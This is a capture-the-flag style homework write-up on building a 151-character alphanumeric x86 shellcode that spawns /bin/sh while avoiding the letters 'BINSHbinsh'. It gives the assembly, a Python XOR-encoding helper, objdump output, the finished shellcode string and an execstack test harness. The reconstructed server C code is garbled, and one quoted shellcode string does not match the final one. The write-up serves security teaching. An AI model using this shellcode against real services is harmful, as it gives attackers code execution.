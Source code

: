 ================
 alnum Write Up
================

:date: 2015-01-21 02:15
:modified: 2015-01-24 16:11
:tags: secprog, writeup, alphanumeric
:category: memo
:slug: alnum-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 2-2

Alphanumeric Shellcode Executor
===============================

Once connect to the service, it will prompt the following message:

.. code-block:: text

    $ nc secprog.cs.nctu.edu.tw 10022
    Welcome to AlphaNumeric Shellcode executor!
    You can only use 0-9 A-Z a-z.
    "BINSH" and "binsh" are filter out.

    Please input your shellcode:

This is a alphanumeric shellcode executor, it sucks in the input string which
only contains alphanumerics (except the characters in "BINSHbinsh"). The server
code and the code below may look alike:

.. code-block:: c

    #include stdio.h
    #include stdlib.h
    #include string.h

    int main(void) {
        char shellcode[];
        char *invalid = "BINSHbinsh";
        int i = 0;

        scanf("%s", shellcode);

        for(i = 0; i < strlen(shellcode); i++) {
            if(strchr(shellcode, invalid[i]) != NULL) {
                puts("Invalid input! byebye...\n");
                exit(0);
            }
        }

        (*(void (*)()) shellcode)();

        return 0;
    }

After checking the string, the program counter will jump to the starting point
of the shellcode, and executes it. The shellcode is in stack, so Data Execution
Prevention (DEP) must not be enabled.

Encode The Shellcode
====================

I found a helpful Japanese article, which goes through all the processes of
generating an alphanumeric shellcode. But there is one more restriction
(excluding "BINSHbinsh") in the Homework.

First, the most important thing is that finding a workable shellcode that opens
a shell. Following is a normal shellcode that executes ``/bin/sh``. It pushes
the instructions into stack and finally jumps to ``esp`` to execute the code it
just pushed.

.. code-block:: nasm

                /* test.s */
            .intel_syntax noprefix
            .globl _start
    _start:
            push 0x80cd0b42
            push 0x8de18953
            push 0x52e3896e
            push 0x69622f68
            push 0x68732f2f
            push 0x6852d231
            jmp esp

To prove that it can actually open a shell:

.. code-block:: bash

    $ gcc -m32 -nostdlib test.s
    $ ./a.out
    sh-4.3$

But when you look into the content of the binary, you'll discover that it is
not alphanumeric, it contains many non-printable characters. Sadly, most of the
printable characters are not allowed in the problem, i.e. "BINSHbinsh".

.. code-block:: text

    $ objdump -s -j .text a.out

    a.out:     file format elf32-i386

    Contents of section .text:
     8048098 68420bcd 80685389 e18d686e 89e35268  hB...hS...hn..Rh
     80480a8 682f6269 682f2f73 686831d2 5268ffe4  h/bih//shh1.Rh..

The instructions listed below are valid because their opcode are in the range
of alphanumerics.

.. code-block:: text

    30      XOR r/m8 r8
    31      XOR r/m16/32 r16/32
    32      XOR r8 r/m8
    33      XOR r16/32 r/m16/32
    34      XOR AL imm8
    35      XOR eAX imm16/32
    38      CMP r/m8 r8
    39      CMP r/m16/32 r16/32
    40+r    INC r16/32    (except for eax, edx)
    48+r    DEC r16/32    (except for eax, ecx, esi)
    50+r    PUSH r16/32   (except for ebx)
    58+r    POP r16/32    (only for eax, ecx, edx)
    61      POPAD
    6a      PUSH imm8
    6b      IMUL r16/32 r/m16/32 imm8
    70-7a   JO/JNO/JB/JNB/JZ/JNZ/JNA/JA/JS/JNS/JP rel8

We cannot push 32/16-bit immediate value directly into stack, because the
opcode of the instruction is invaild. Also, the immediate value which pushed
into the stack is invalid, either. That kind Japanese provided a neat Python
script that automatically generates some valid values. The result of XORed of
the values is the original value we want to push into the stack. Then we can
XOR these value with the register to store the value we want. This Python
script only promises that the decomposite vaules are alphanumerics. In order to
exclude "BINSHbinsh" in the shellcode, that Python script must be patched to
meet the requirement.

.. code-block:: python

    #!/usr/bin/env python
    # decomposite.py
    #
    import sys
    import struct

    word = int(sys.argv[1], 16)

    alnum = range(0x30, 0x3a) + range(0x41, 0x5b) + range(0x61, 0x7b)
    allowed = [ i for i in alnum if chr(i) not in "BINSHbinsh" ]    # patch

    chunk = struct.pack('<I', word)
    x = ''
    y = ''
    z = ''

    for c in map(ord, chunk):
        if c >= 0x80:
            z += '\xff'
            c ^= 0xff
        else:
            z += '\x00'
        for i in allowed:
            if i^c in allowed:
                x += chr(i)
                y += chr(i^c)
                break

    print hex(struct.unpack('<I', x)[0])
    print hex(struct.unpack('<I', y)[0])
    print hex(struct.unpack('<I', z)[0])

With this handy script, we can get rid of many invalid characters.

.. code-block:: text

    [origin]: 0x80cd0b42
    0x30433230
    0x4f713972
    0xffff0000
    [origin]: 0x8de18953
    0x31443030
    0x435a4663
    0xffffff00
    [origin]: 0x52e3896e
    0x31443034
    0x6358465a
    0xffff00
    [origin]: 0x69622f68
    0x30304330
    0x59526c58
    0x0
    [origin]: 0x68732f2f
    0x30304343
    0x58436c6c
    0x0
    [origin]: 0x6852d231
    0x30314141
    0x58636c70
    0xff00

Strategy
========

So the strategy of generating an alphanumeric shellcode is:

1. Clear all registers
2. Make some register to be ``0xffffffff`` for convenience
3. ``XOR`` register with immediate values to shape the wanted value
4. ``PUSH`` the register into the stack
5. Do some minor change through XORing byte by byte
6. ``PUSH esp`` into the stack
7. Jump to the top of the stack by calling ``RET``

You might wonder: why ``RET`` can be used? Actually it can't. So we place a
dummy value there, and patch it when executing the shellcode. The total length
of the shellcode should be carefully calculated in order to patch the right
byte where the dummy value resides. Otherwise, our happy friend (core dump)
will show up.

Patch Patch Patch
=================

The almighty Japanese had already provided a prototype for us! Thanks bro! But
still there are some parts must be patched to pass the check. All I have done
is that:

- Replace the invalid immediate vaule
- Replace ``esi`` with ``edi`` in ``patch_ret``
- Replace ``ebx`` and ``edx`` with ``esi`` when pushing zero into the stack
- Eliminate 5 lines of ``dec ecx``, and increase the length of the shellcode
- Re-calculate the position of the dummy value.

And the result is:

.. code-block:: nasm

            /* alnum.s */
            .intel_syntax noprefix
            .globl _start
    _start:
            /* set buffer register to ecx */
            push eax
            pop ecx

    prepare_registers:
            push 0x30
            pop eax
            xor al, 0x30
                      /* omit eax, ecx */
            push eax  /* edx = 0 */
            push eax  /* ebx = 0 */
            push eax
            push eax
            push eax  /* esi = 0 */
            push ecx  /* edi = buffer */
            popad
            dec edx   /* edx = 0xffffffff */

    patch_ret:
            /* garbage */
            push eax
            xor eax, 0x30303030

            /* 0x44 ^ 0x78 ^ 0xff == 0xc3 (ret) */
            push edx
            pop eax
            xor al, 0x44
            push 0x30
            pop ecx
            xor [edi+2*ecx+0x30], al

    build_stack:
            /* push 0x80cd0b42 */
            push esi
            pop eax
            xor eax, 0x30433230
            xor eax, 0x4f713972
            push eax
            push esp
            pop ecx
            inc ecx
            inc ecx
            xor [ecx], dh
            inc ecx
            xor [ecx], dh

            /* push 0x8de18953 */
            push esi
            pop eax
            xor eax, 0x31443030
            xor eax, 0x435a4663
            push eax
            push esp
            pop ecx
            inc ecx
            xor [ecx], dh
            inc ecx
            xor [ecx], dh
            inc ecx
            xor [ecx], dh

            /* push 0x52e3896e */
            push esi
            pop eax
            xor eax, 0x31443034
            xor eax, 0x6358465a
            push eax
            push esp
            pop ecx
            inc ecx
            xor [ecx], dh
            inc ecx
            xor [ecx], dh

            /* push 0x69622f68 */
            push esi
            pop eax
            xor eax, 0x30304330
            xor eax, 0x59526c58
            push eax

            /* push 0x68732f2f */
            push esi
            pop eax
            xor eax, 0x30304343
            xor eax, 0x58436c6c
            push eax

            /* push 0x6852d231 */
            push esi
            pop eax
            xor eax, 0x30314141
            xor eax, 0x58636c70
            push eax
            push esp
            pop ecx
            inc ecx
            xor [ecx], dh

            push esp

    ret:
            .byte 0x78

It is time to assemble the assembly code into the real executable! After that
we can check whether the ``.text`` section consists of all printable character
or not.

.. code-block:: bash

    $ gcc -m32 -nostdlib alnum.s -o alnum
    $ objdump -s -j .text alnum

    alnum:     file format elf32-i386

    Contents of section .text:
    8048098 50596a30 58343050 50505050 51614a50  PYj0X40PPPPPQaJP
    80480a8 58505850 58353030 30303530 30303035  XPXPX50000500005
    80480b8 30303030 35303030 30525834 446a3059  000050000RX4Dj0Y
    80480c8 30444f44 56583530 32433035 7239714f  0DODVX502C05r9qO
    80480d8 50545941 41303141 30315658 35303044  PTYAA01A01VX500D
    80480e8 31356346 5a435054 59413031 41303141  15cFZCPTYA01A01A
    80480f8 30315658 35343044 31355a46 58635054  01VX540D15ZFXcPT
    8048108 59413031 41303156 58353043 30303558  YA01A01VX50C005X
    8048118 6c525950 56583543 43303035 6c6c4358  lRYPVX5CC005llCX
    8048128 50565835 41413130 35706c63 58505459  PVX5AA105plcXPTY
    8048138 41303154 78                          A01Tx

Using the following command to check whether the alpanumeric shellcode contains
"BINSHbinsh" or not.

.. code-block:: bash

    $ echo \
    'PYj0X40PPPPPQaJP50000RX4Dj0Y0DO0VX502C05r9qOPTYAA01A01VX500D15cFZCPTYA01A01A01VX540D15ZFXcPTYA01A01VX50C005XlRYPVX5CC005llCXPVX5AA105plcXPTYA01Tx' | grep [BINSHbinsh]

Nothing showed up! That means there is no character of "BINSHbinsh".  And the
alphanumeric shellcode is only 151 characters long. So let's put the shellcode
into our simple shellcode executor:

.. code-block:: c

    /* shellcode.c */

    int main(void)
    {
        char shellcode[] = "PYj0X40PPPPPQaJPXPXPX50000500005000050000RX4Dj0Y0DODVX502C05r9qOPTYAA01A01VX500D15cFZCPTYA01A01A01VX540D15ZFXcPTYA01A01VX50C005XlRYPVX5CC005llCXPVX5AA105plcXPTYA01Tx";

        (*(void (*)())shellcode)();
    }

Do not forget we are on 32-bit machine and the shellcode is stored in the
stack. To be able to execute the shellcode on the stack, one must disable DEP
during the compilation time.

.. code-block:: bash

    $ gcc -m32 -z execstack -o shellcode shellcode.c
    $ ./shellcode
    sh-4.3$

Bingo! Now submit the alphanumeric shellcode to the server, and cat the flag!

Flag
====

.. code-block:: text

    SECPROG{IncredibleASMProgrammer}

References
==========

- `x86 alphanumeric shellcodeを書いてみる`__
- `x86 alphanumeric shellcode encoderを書いてみる`__
- `Hacking/Shellcode/Alphanumeric/x86 printable opcodes`__
- `Encoding Real x86 Instructions`__

.. __: http://inaz2.hatenablog.com/entry/2014/07/11/004655
.. __: http://inaz2.hatenablog.com/entry/2014/07/13/025626
.. __: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
.. __: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout

